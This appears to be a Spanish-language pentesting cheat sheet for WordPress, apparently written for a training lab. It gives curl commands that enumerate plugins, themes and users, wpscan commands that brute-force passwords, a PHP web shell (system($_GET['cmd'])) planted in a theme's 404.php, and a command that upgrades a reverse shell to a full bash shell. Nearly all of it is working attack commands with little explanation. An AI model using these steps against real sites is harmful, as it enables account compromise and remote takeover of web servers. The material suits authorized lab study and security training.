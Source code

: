 #### Passive plugins enumeration

    curl -s -X GET http://página | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

#### Passive themes enumeration

    curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2


#### User Enumeration

Listar de a un usuario:

    curl -s -I -X GET http://blog.inlanefreight.com/?author=1

O la lista de usuarios en un json:

    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq



######################################WPSCAN

wpscan -url "" --enumerate  --api-token <api-token>
wpscan -url "" --usernames "" --passwords "dictio"

pasar comando para insertar código como parametro:
system($_GET['cmd']);

acceder a la pagina php con la shell
http://"ip o url"/wp-content/themes/"tema"/404.php

si la reverse shell es la monkey, para migrar a una shell más estable:
python -c 'import pty;pty.spawn("/bin/bash")' 
